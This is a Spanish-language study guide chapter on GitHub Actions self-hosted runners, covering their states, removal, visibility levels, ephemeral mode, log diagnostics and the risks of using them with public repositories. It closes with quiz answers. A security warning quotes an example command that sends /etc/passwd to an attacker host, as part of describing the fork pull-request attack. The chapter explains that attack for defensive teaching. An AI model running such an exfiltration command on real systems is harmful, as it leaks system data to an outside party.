


# 4.7.2 Self-Hosted Runners: ciclo de vida, jerarquía de visibilidad y seguridad

← [4.7.1 Self-Hosted Runners: registro](gha-d4-self-hosted-runners-registro.md) | [Índice](README.md) | [4.8 ARC y Scale Sets](gha-d4-arc-scale-sets.md) →

---

Una vez que el runner está registrado y en marcha, es fundamental comprender cómo gestionar su ciclo de vida —qué estados puede tener, cómo eliminarlo correctamente y cómo diagnosticar problemas— y cuáles son los riesgos de seguridad específicos de la infraestructura propia, especialmente cuando se trabaja con repositorios públicos.

> [CONCEPTO] Un self-hosted runner mantiene una conexión long-poll HTTPS con GitHub para recibir jobs. Cuando GitHub tiene un job que coincide con las labels del runner, envía la asignación por esa conexión.

## Estados del ciclo de vida del runner

El runner puede encontrarse en tres estados visibles desde la UI de GitHub (Settings > Actions > Runners) y desde la API REST. El estado refleja la disponibilidad del runner para aceptar nuevos jobs.



*Ciclo de vida de un self-hosted runner: los runners ephemeral terminan su vida al completar un job; los persistentes regresan a Idle.*

| Estado | Descripción | Causa habitual |
|--------|-------------|----------------|
| **Idle** | En línea y esperando jobs | Estado normal cuando el servicio está activo |
| **Active** | Ejecutando un job en este momento | Runner ocupado procesando un workflow |
| **Offline** | Sin conexión con GitHub | Servicio detenido, máquina apagada o red cortada |

> [EXAMEN] Un runner en estado **offline** no recibe jobs, pero los jobs en cola esperan (no fallan inmediatamente). Los jobs solo fallan por timeout si no hay runners disponibles durante un tiempo prolongado.

## Eliminar un runner

Para eliminar un runner correctamente se obtiene un token de eliminación mediante la API REST y se ejecuta `./config.sh remove`. Este proceso desvincula el runner de GitHub y limpia la configuración local.

Los pasos para eliminar un runner registrado en una organización son los siguientes.

```bash
# 1. Obtener token de eliminación via API REST
curl -X POST \
  -H "Authorization: Bearer <GITHUB_PAT>" \
  -H "Accept: application/vnd.github+json" \
  https://api.github.com/orgs/MI-ORG/actions/runners/remove-token

# Respuesta: { "token": "AABBCC...", "expires_at": "2024-01-15T12:00:00Z" }

# 2. Ejecutar el script de eliminación en la máquina del runner
./config.sh remove --token AABBCC...

# 3. Si está instalado como servicio, desinstalarlo primero
sudo ./svc.sh stop
sudo ./svc.sh uninstall
./config.sh remove --token AABBCC...
```

> [ADVERTENCIA] Si simplemente apagas la máquina sin ejecutar `./config.sh remove`, el runner aparecerá como **offline** en la UI de GitHub. Puedes forzar la eliminación desde Settings > Actions > Runners > (seleccionar runner offline) > Remove.

## Jerarquía de visibilidad de runners

La jerarquía determina qué repositorios pueden enviar jobs a un runner. Esta estructura es fundamental para diseñar arquitecturas de runners seguras y eficientes.

| Nivel de registro | Visibilidad | Gestión en UI |
|-------------------|-------------|---------------|
| Repositorio | Solo ese repo | Repo > Settings > Actions > Runners |
| Organización | Todos los repos de la org | Org > Settings > Actions > Runners |
| Enterprise | Todas las orgs del enterprise | Enterprise > Settings > Actions > Runners |

Los runners de organización y enterprise se pueden asignar a **runner groups** para restringir qué repositorios tienen acceso. Por ejemplo, un grupo "produccion" puede limitarse a los repos que realmente despliegan a producción.

> [CONCEPTO] Un runner registrado a nivel de organización no es automáticamente accesible por todos los repositorios. Los runner groups controlan el acceso. Por defecto, los nuevos runners van al grupo "Default", que permite todos los repositorios de la org.

## Ejemplo central

El siguiente ejemplo muestra un workflow que usa un runner de organización con runner groups y ephemeral runners para aislar ejecuciones sensibles.

```yaml
# Workflow con runner de organización, grupo restringido y ephemeral
name: Deploy seguro a producción

on:
  push:
    branches: [main]

jobs:
  tests:
    # Usa runner estándar de GitHub para tests (sin acceso a infraestructura)
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Ejecutar tests
        run: npm test

  deploy:
    needs: tests
    # Usa runner self-hosted ephemeral del grupo produccion
    # El runner group "produccion" solo permite repos de deploy
    runs-on: [self-hosted, linux, produccion, ephemeral]
    environment: production
    steps:
      - uses: actions/checkout@v4

      - name: Verificar que es runner limpio
        run: |
          echo "Job ID: $GITHUB_RUN_ID"
          echo "Runner: $RUNNER_NAME"
          # Este runner se eliminará automáticamente al terminar el job

      - name: Deploy a producción
        run: ./scripts/deploy-prod.sh
        env:
          DEPLOY_KEY: ${{ secrets.PROD_DEPLOY_KEY }}
```

```bash
# Registrar runner ephemeral para el grupo de producción
./config.sh \
  --url https://github.com/mi-organizacion \
  --token TOKEN_DE_REGISTRO \
  --name runner-prod-ephemeral \
  --labels self-hosted,linux,produccion,ephemeral \
  --runnergroup produccion \
  --ephemeral \
  --unattended
```

## Seguridad: riesgo con repositorios públicos

El mayor riesgo de seguridad de los self-hosted runners es su uso con repositorios públicos. Cuando un repositorio es público, cualquier usuario puede abrir un Pull Request desde un fork, y ese PR puede contener código malicioso en el workflow que se ejecutará directamente en el runner corporativo.

> [ADVERTENCIA] La documentación oficial de GitHub recomienda explícitamente **no usar self-hosted runners con repositorios públicos**. Un atacante puede hacer fork de un repo público y enviar un PR con un workflow que ejecute `curl http://attacker.com/$(cat /etc/passwd)` en tu infraestructura interna.

El vector de ataque es el siguiente: un atacante hace fork de un repositorio público, modifica un workflow en `.github/workflows/`, abre un Pull Request y GitHub Actions ejecuta ese workflow en el self-hosted runner de la organización víctima. El atacante obtiene acceso de shell a la máquina del runner, a los secrets inyectados en el job y potencialmente a la red interna.



*Vector de ataque en repositorios públicos con self-hosted runners: el código de un fork no confiable se ejecuta directamente en la infraestructura corporativa.*

| Tipo de repositorio | Riesgo con self-hosted runner | Recomendación |
|--------------------|-------------------------------|---------------|
| Privado | Bajo (acceso controlado) | Aceptable con hardening |
| Público | Muy alto (forks pueden ejecutar código) | Evitar; usar runners de GitHub |
| Interno (org members) | Medio | Evaluar con runner groups |

## Ephemeral runners: aislamiento de ejecuciones

Un runner ephemeral se configura con la flag `--ephemeral` en `config.sh`. Tras completar un job, el proceso del runner se detiene y GitHub lo elimina del registro. Para el siguiente job, se levanta un runner nuevo desde cero.

La ventaja principal es el aislamiento: cada job obtiene un entorno limpio sin residuos del job anterior, como archivos temporales, variables de entorno modificadas, paquetes instalados o credenciales cacheadas.

```bash
# Runner ephemeral: se auto-elimina tras el primer job
./config.sh \
  --url https://github.com/mi-org \
  --token TOKEN \
  --ephemeral

# Para orquestar runners ephemeral de forma continua se usa un script de bucle
# o, preferiblemente, Actions Runner Controller (ARC) en Kubernetes
while true; do
  ./config.sh --url URL --token "$(obtener_token)" --ephemeral --unattended
  ./run.sh
done
```

> [EXAMEN] Los runners ephemeral son la práctica recomendada para entornos sensibles porque evitan la **contaminación entre ejecuciones** (cross-job contamination). Sin ephemeral, un job podría dejar archivos o variables que afecten a jobs posteriores del mismo runner.

## Diagnóstico de runners

Cuando un runner falla o no se conecta, los logs se encuentran en el directorio `_diag/` dentro de la carpeta de instalación del runner. Para runners instalados como servicio en Linux, también se puede usar `journalctl`.

```bash
# Ver logs del runner (directorio _diag/)
ls -la ~/actions-runner/_diag/
# Archivos: Runner_YYYYMMDD-HHMMSS-utc.log, Worker_YYYYMMDD-...log

# Ver logs del servicio systemd en Linux
journalctl -u actions.runner.MI-ORG.runner-nombre.service -f

# Verificar conectividad con GitHub (runner necesita acceso a estos dominios)
curl -v https://api.github.com
curl -v https://pipelines.actions.githubusercontent.com
```

## Buenas y malas prácticas

**Hacer:**
- Usar runners ephemeral (`--ephemeral`) para jobs de seguridad o deploy — razón: cada ejecución parte de un estado limpio, eliminando riesgos de contaminación entre jobs.
- Configurar runner groups para restringir acceso por repositorio — razón: evita que repositorios no autorizados usen runners de producción.
- Revisar logs en `_diag/` ante cualquier fallo de conexión — razón: contienen el error exacto de autenticación o red que causó el problema.
- Usar runners self-hosted solo en repositorios privados — razón: los repos públicos exponen el runner a ejecución de código de forks no confiables.

**Evitar:**
- Registrar self-hosted runners en repositorios públicos — razón: cualquier usuario puede ejecutar código arbitrario en tu infraestructura mediante un PR desde un fork.
- Ignorar runners en estado offline durante días — razón: pueden indicar un fallo del servicio o de la red que paraliza workflows en producción.
- Usar runners persistentes sin limpiar el directorio `_work/` — razón: los artefactos de jobs anteriores pueden contaminar ejecuciones posteriores o consumir espacio en disco.

## Verificación y práctica

**Pregunta 1:** ¿Por qué es peligroso usar un self-hosted runner con un repositorio público?

Respuesta: Cualquier usuario puede hacer fork del repositorio y abrir un PR con un workflow malicioso. GitHub ejecutará ese workflow en el self-hosted runner, dando al atacante acceso shell a la máquina y a los secrets del job.

**Pregunta 2:** ¿Qué hace la flag `--ephemeral` en `config.sh`?

Respuesta: Configura el runner para que se elimine automáticamente de GitHub tras completar **un único job**. Garantiza que cada job comience con un entorno limpio sin residuos de ejecuciones anteriores.

**Pregunta 3:** Un runner aparece como **offline** en la UI. ¿Cuáles son las dos formas de eliminarlo del registro?

Respuesta: (1) En la máquina del runner, obtener un token de eliminación con la API REST y ejecutar `./config.sh remove --token TOKEN`. (2) Desde la UI de GitHub, en Settings > Actions > Runners, seleccionar el runner offline y usar la opción "Remove".

**Ejercicio:** Modifica el siguiente workflow incompleto para que el job `deploy` solo se ejecute en un runner ephemeral del grupo `produccion` y solo después de que pasen los tests.

```yaml
# Workflow incompleto
name: CI/CD
on: [push]
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - run: npm test
  deploy:
    # COMPLETAR: dependencia, runner correcto
    steps:
      - run: ./deploy.sh
```

```yaml
# Solución
name: CI/CD
on: [push]
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - run: npm test
  deploy:
    needs: test
    runs-on: [self-hosted, linux, produccion, ephemeral]
    steps:
      - uses: actions/checkout@v4
      - run: ./deploy.sh
```

---
← [4.7.1 Self-Hosted Runners: registro](gha-d4-self-hosted-runners-registro.md) | [Índice](README.md) | [4.8 ARC y Scale Sets](gha-d4-arc-scale-sets.md) →
